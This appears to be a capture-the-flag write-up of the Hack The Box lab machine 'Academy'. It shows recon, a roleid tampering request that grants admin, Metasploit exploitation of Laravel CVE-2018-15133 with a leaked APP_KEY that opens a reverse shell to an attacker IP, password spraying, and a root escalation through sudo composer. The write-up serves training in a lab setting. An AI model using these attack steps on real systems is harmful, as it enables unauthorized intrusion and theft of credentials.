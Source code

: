 # Academy
This box is a Linux made by egre55 & mrb3n and its IP is 10.10.10.215.
Let's dive in.

We start by a complete nmap scan:
```
$ nmap -sC -sV -oA nmap/complete -p- 10.10.10.215
```
Nmap shows:
     22/tcp ssh openSSH with Ubuntu banner
          80/tcp http Apache httpd 2.4.41
	       33060/tcp mysqlx ? Nmap doesn't know that service, probably something weird

HTTP says "did not follow redirect to http://academy.htb/" so lets add that to
our hosts file and check that website.

Website is a clone of HTB Academy, a website to teach how to hack.
There's a register account, login form on the main page, then we get logged in
as "eggre55" no matter the username chosen.
Let's gobuster that website using our PHPSESSID cookie.
Gobuster shows us there's a "/admin.php" endpoint, that gets us a new login form

While checking around, i found that the "/register" endpoint takes this payload:
```
uid=shadstest&password=shadstest123&confirm=shadstest123&roleid=0
```

That role-id was a nice find. I've intercepted the request using burp suite then
set it to 1 before forwarding it. I've then logged on the app with that account,
then logged on the /admin.php endpoint, and accessed this admin page:

```
Academy Launch Planner
Item 	Status
Complete initial set of modules (cry0l1t3 / mrb3n)	done
Finalize website design 	done
Test all modules 		done
Prepare launch campaign 	done
Separate student and admin roles	done
Fix issue with dev-staging-01.academy.htb	pending
```

This gives us a new hostname to add to our hostsfile and check;

Using Firefox to acess this page, we get a 500 error and the debugging
application of what looks like to be Laravel debugging ?

The error is:
```
 UnexpectedValueException
 The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied
 ```
 The debbuging app leaks the environment of the application running behind it.
 Cool stuff shown includes:

```
APP_KEY => "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
APP_DEBUG => "true"
DB_CONNECTION => "mysql"
DB_HOST => "127.0.0.1"
DB_PORT => "3306"
DB_DATABASE => "homestead"
DB_USERNAME => "homestead"

DB_PASSWORD =>"secret"
```
Decoding the AppKey does not yield text though, only bad bytes ?

---
Further research lead me to CVE CVE-2018-15133 which allows us RCE
if we have the app's secret key, which we have.
This CVE also has a metasploit module, which is nice cause i like metasploit.

```
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
LHOST => 10.10.14.56
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.56:4444
[*] Command shell session 1 opened (10.10.14.56:4444 -> 10.10.10.215:55796) at 2020-12-04 13:11:20 +0100

whoami
www-data
/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$ ls
ls
css  favicon.ico  index.php  js  robots.txt  web.config
```

We got in as www-data user.
Digging into both webapps for loot;
found that one:
```
# academy/database/factories/UserFactory.php
..
  return [
          'name' => $faker->name,
          'email' => $faker->unique()->safeEmail,
          'password' => '$2y$10$TKh8H1.PfQx37YgCzwiKb.KjNyWgaHb9cbcoQgdIVFlYg7B77UdFm', // secret
          'remember_token' => str_random(10),
```

bcrypt hash ; found the same in htb-academy-dev-01/database/factories

In academy/.env found this:

```
DB_PASSWORD=mySup3rP4s5w0rd!!
```

What do users do with passwords ? They re-use them !
I've sprayed that password on the users found in /etc/passwd and landed a shell
on user cry0l1t3

```
$ whoami
cry0l1t3
$ cat /home/cry0l1t3/user.txt | wc -c
33
```

We've owned user. Moving on to privesc...

For ease of work i'll add an ssh key to user cry0l1t3 and use that instead
of my metasploit shell;

I've uploaded linpeas.sh, ran it, exfiled the results, then checked them;

---

Because i was in group adm i digged for a long time in /var/log.
Like, a long time.
Out of boredom, i went back to my linpeas.out hoping to find something new
and guess what, i found this:

```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```
Tried that:

```
cry0l1t3@academy:/var/log$ su mrb3n
Password: mrb3n_Ac@d3my!
$ whoami
mrb3n
```
So there's that.

Once logged in as mrb3n, we check sudo privileges:

```
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n:
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

We are able to run composer as root. So we'll create a new directory, create
a "composer.json" file and add it a script that will exfil the root.txt,
then execute it using composer.

```
mrb3n@academy:/tmp/.hid$ cat composer.json
{
 "scripts": {
    "pwn": "cat /root/root.txt | wc -c"
     }
  }
mrb3n@academy:/tmp/.hid$ sudo composer run-script pwn
33
```

We've owned the root account.
